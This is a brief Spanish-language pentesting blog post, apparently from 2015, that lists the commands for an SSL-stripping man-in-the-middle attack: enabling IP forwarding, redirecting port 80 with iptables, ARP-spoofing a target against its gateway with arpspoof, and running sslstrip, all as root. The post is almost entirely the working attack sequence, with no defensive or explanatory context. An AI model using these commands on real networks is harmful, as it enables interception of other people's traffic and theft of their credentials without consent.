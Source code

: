 ```yaml
---
title: ssltrip
description: 
date: 2015-09-02
lastmod: 2015-09-02
slug: ssltrip
image: "covers/pentesting.png"
tags:
  - ssltrip
categories:
  - Pentesting
---
```


```
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
arpspoof -i eth0 -t "ip objetivo" "ip puerta enlace"
python ssltrip.py
python ssltrip.py -v log
```

> Todo esto hay que hacerlo como root
